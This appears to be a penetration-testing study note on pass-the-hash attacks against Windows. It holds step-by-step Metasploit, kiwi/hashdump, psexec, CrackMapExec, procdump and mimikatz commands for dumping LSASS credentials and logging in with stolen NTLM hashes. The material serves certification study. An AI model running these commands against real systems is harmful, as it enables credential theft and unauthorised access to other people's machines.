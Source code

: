 # Pass-The-Hash Attack
> Steals the hashed version of someone's password
> -> Uses that hash to log in as that person (Without knowing the actual password)


Why does this work?
In Windows system (especially with SMB, WinRM, or RDP), when you log in:\
- Windows doesn't need the *actual password*, just the **NTLM** hash.
- if I have the **hash** I can use it to log in without decrypting it.
- ⚠️Works only after initial access (post-exploitation)

Example hash
```bash
#The las long string is the NTLM hash
Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
```




Start PostgreSQL and open Metasploit framework console\
[Command breakdown](https://github.com/itr-a/eJTP-Learning/blob/66b4dafe0953fbd05266c1fad910c056686ff57c/Tools/PostgreSQL.md#14)
```bash
service postgresql start && msfconsole
```
Search module
```bash
msf6> search badblue
```
Choose module from **Matching Modules**
```bash
use 1
```
Specify target IP
```bash
set RHOSTS <IP>
```
Exploit
```bash
exploit
```
Find the Process ID of LSASS (Local Security Authority Subsystem Service) process
`pgrep` is Linux command
```bash
meterpreter> pgrep lsass
```
[Command breakdown](https://github.com/itr-a/eJTP-Learning/blob/a3fee5c216c3fb40066529c6048813e24e3b5b9b/Tools/Metasploit.md#81)
```bash
meterpreter> migrate <PID>
```
Show previlege\
[Command](https://github.com/itr-a/eJTP-Learning/blob/a3fee5c216c3fb40066529c6048813e24e3b5b9b/Tools/Metasploit.md#94)
```bash
getuid
```
Load kiwi [kiwi](https://github.com/itr-a/eJTP-Learning/blob/a3fee5c216c3fb40066529c6048813e24e3b5b9b/Tools/Metasploit.md#101)
```bash
load kiwi
```
Get Administrator and TLM credentials
```bash
meterpreter> lsa_dump_sam

#Another way
meterpreter> hashdump
```
Put meterpreter session in the background (Ctr + Z)
Search for the module
(Exploit Windows SMB psexec)
```bash
exploit> search psexec
```
Set username and password
```bash
set SMBUser <username>
set SMBPass
```
Exploit
```bash
exploit
```
CrackMapExec
```bash
# In new Terminal tab
# -H <hash> for hashed password
crackmapexec smb <target-IP> -u <username> -p <password>

#-x for execute a command
~~~~ -x "whoami"
```



#### 📔 Note
- LSASS
  Why we care LSASS?
  -> `lsass.exe` stores sensitive information in memory especially:
  - Logged-in **user credentials**
  - **Password hashes**
  - Authentication tokens\
 
    
  Typical attack flow
  - Exploit the system (gain access)
  - Find `lsass` PID
   ```bash
   pgrep lsass
   ```
  - Dump memory of that PID
   ```bash
   procdump -ma <PID> lsass.dmp
   ```
  - Extract passworkds/hashes with:
  ```bash
  mimikatz lsass.dmp
  ```
